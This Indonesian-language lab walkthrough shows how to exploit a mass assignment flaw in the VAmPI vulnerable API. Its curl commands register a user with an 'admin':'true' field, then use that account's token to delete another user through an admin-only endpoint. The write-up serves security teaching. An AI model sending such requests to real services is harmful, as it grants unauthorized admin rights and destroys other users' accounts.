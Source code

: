 # Mass Assignment
Framework terkadang memungkinkan developer untuk mengikat parameter request HTTP ke dalam variabel atau objek secara otomatis untuk membuat penggunaan framework tersebut mudah digunakan. Hal ini terkadang dapat menimbulkan kerugian. Misalnya, developer dapat membiarkan beberapa fungsi privat terbuka untuk umum seperti siapa pun dapat membuat akun admin. Jika fungsi semacam ini ada maka penyerang dapat memanfaatkannya. Celah keamanan ini berada di endpoint `/users/v1/register`. Melalui endpoint tersebut kita bisa mendaftarkan diri sebagai admin hanya dengan menambahkan parameter `admin=true`

- Register akun baru dengan username `test1`
```sh
curl http://IP_Server:5000/users/v1/register -d '{"email":"test1@test.com","username":"test1","password":"test1"}' -H 'Content-Type: application/json' --proxy http://127.0.0.1:8080
```

![alt text](https://github.com/rahardian-dwi-saputra/vampi-walkthrough/blob/main/assets/mass%20assigment/mass%20assigment%201.JPG)

![alt text](https://github.com/rahardian-dwi-saputra/vampi-walkthrough/blob/main/assets/mass%20assigment/mass%20assigment%202.JPG)

- Sekarang kita coba register akun baru dengan username `test2` lalu menambahkan parameter `admin=true` supaya user `test2` bisa bertindak sebagai admin
```sh
curl http://IP_Server:5000/users/v1/register -d '{"email":"test2@test.com","username":"test2","password":"test2","admin":"true"}' -H 'Content-Type: application/json' --proxy http://127.0.0.1:8080
```

![alt text](https://github.com/rahardian-dwi-saputra/vampi-walkthrough/blob/main/assets/mass%20assigment/mass%20assigment%203.JPG)

![alt text](https://github.com/rahardian-dwi-saputra/vampi-walkthrough/blob/main/assets/mass%20assigment/mass%20assigment%204.JPG)

- Setelah kita coba tambahkan parameter `admin=true`, proses registerasi user dinyatakan berhasil oleh sistem artinya user `test2` bisa bertindak sebagai admin
- Pada dokumentasi API sistem di URL `http://IP_Server:5000/ui` terdapat informasi bahwa endpoint `/users/v1/{username}` dengan jenis request `DELETE` hanya bisa diakses oleh admin saja

![alt text](https://github.com/rahardian-dwi-saputra/vampi-walkthrough/blob/main/assets/mass%20assigment/mass%20assigment%205.JPG)

- Sekarang kita coba apakah user `test2` bisa menghapus user `test1` melalui endpoint tersebut. Pertama-tama kita login sebagai user `test2` dan copy nilai `auth_token`
```sh
curl http://IP_Server:5000/users/v1/login -d '{"username":"test2","password":"test2"}' -H 'Content-Type: application/json' --proxy http://127.0.0.1:8080
```

![alt text](https://github.com/rahardian-dwi-saputra/vampi-walkthrough/blob/main/assets/mass%20assigment/mass%20assigment%206.JPG)

![alt text](https://github.com/rahardian-dwi-saputra/vampi-walkthrough/blob/main/assets/mass%20assigment/mass%20assigment%207.JPG)

- Setelah itu kita coba hapus akun user `test1` dengan menggunakan menggunakan endpoint `/users/v1/{username}`
```sh
curl -X DELETE http://IP_Server:5000/users/v1/test1 -H 'Authorization: Bearer token' --proxy http://127.0.0.1:8080
```

![alt text](https://github.com/rahardian-dwi-saputra/vampi-walkthrough/blob/main/assets/mass%20assigment/mass%20assigment%208.JPG)

![alt text](https://github.com/rahardian-dwi-saputra/vampi-walkthrough/blob/main/assets/mass%20assigment/mass%20assigment%209.JPG)

- User `test2` ternyata bisa menggunakan endpoint `/users/v1/{username}` untuk menghapus akun user `test1`, dimana endpoint `/users/v1/{username}` sebenarnya hanya bisa digunakan oleh admin saja. Tapi dengan menambahkan parameter `admin=true` saat registerasi, akun tersebut akan otomatis terdaftar sebagai admin. Celah keamanan ini bisa digunakan attacker untuk melakukan privileges escalation dan authentication bypass yang memiliki impact sangat berbahaya ke sistem API